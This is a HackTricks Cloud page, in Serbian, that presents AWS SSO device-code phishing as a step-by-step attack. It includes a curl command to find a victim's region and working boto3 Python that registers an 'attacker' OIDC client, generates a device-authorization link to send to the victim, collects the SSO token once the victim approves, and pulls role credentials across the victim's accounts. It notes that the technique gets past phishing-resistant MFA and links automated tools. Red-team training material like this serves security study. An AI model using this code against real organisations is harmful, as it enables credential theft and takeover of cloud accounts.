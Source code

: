 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## AWS Device Code Phishing

Prvobitno predloženo u [**ovom blog postu**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), moguće je poslati **link** korisniku koji koristi AWS SSO, koji ako **korisnik prihvati**, napadač će moći da dobije **token za lažno predstavljanje korisnika** i pristupi svim ulogama kojima korisnik može pristupiti u **Identity Center**.

Da bi se izveo ovaj napad, potrebni su:

* Žrtva mora koristiti **Identity Center**
* Napadač mora znati **subdomen** koji koristi žrtva `<victimsub>.awsapps.com/start`

Samo sa prethodnim informacijama, **napadač će moći poslati link korisniku** koji ako bude **prihvaćen** će omogućiti **napadaču pristup AWS korisničkom** nalogu.

### Napad

1. **Pronalaženje subdomena**

Prvi korak napadača je da otkrije subdomen koji kompanija žrtve koristi u svom Identity Center-u. Ovo se može uraditi putem **OSINT-a** ili **pogađanjem + BF** jer većina kompanija koristi svoje ime ili varijaciju svog imena ovde.

Sa ovim informacijama, moguće je dobiti region gde je Identity Center konfigurisan sa:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generiši link za žrtvu i pošalji ga**

Pokreni sledeći kod da generišeš AWS SSO login link kako bi se žrtva autentifikovala.\
Za demonstraciju, pokreni ovaj kod u python konzoli i ne izlazi iz nje jer će ti kasnije trebati neki objekti da dobiješ token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Pošaljite generisani link žrtvi koristeći vaše sjajne veštine socijalnog inženjeringa!

3. **Sačekajte dok žrtva ne prihvati**

Ako je žrtva **već prijavljena na AWS**, samo će trebati da prihvati dodeljivanje dozvola, ako nije, moraće da se **prijavi i zatim prihvati dodeljivanje dozvola**.\
Ovako izgleda prompt danas:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Dobijte SSO pristupni token**

Ako je žrtva prihvatila prompt, pokrenite ovaj kod da **generišete SSO token imitirajući korisnika**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO pristupni token je **važeći 8h**.

5. **Imitiraj korisnika**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Zabavno je znati da prethodni napad **radi čak i ako se koristi "nephishabilni MFA" (webAuth)**. To je zato što prethodni **workflow nikada ne napušta korišćeni OAuth domen**. Za razliku od drugih phishing napada gde korisnik mora da zameni login domen, u ovom slučaju workflow sa kodom uređaja je pripremljen tako da je **kod poznat uređaju** i korisnik može da se prijavi čak i na drugom uređaju. Ako se prihvati prompt, uređaj, samo **znajući početni kod**, će moći da **preuzme kredencijale** za korisnika.

Za više informacija o ovome [**pogledajte ovaj post**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hacking trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
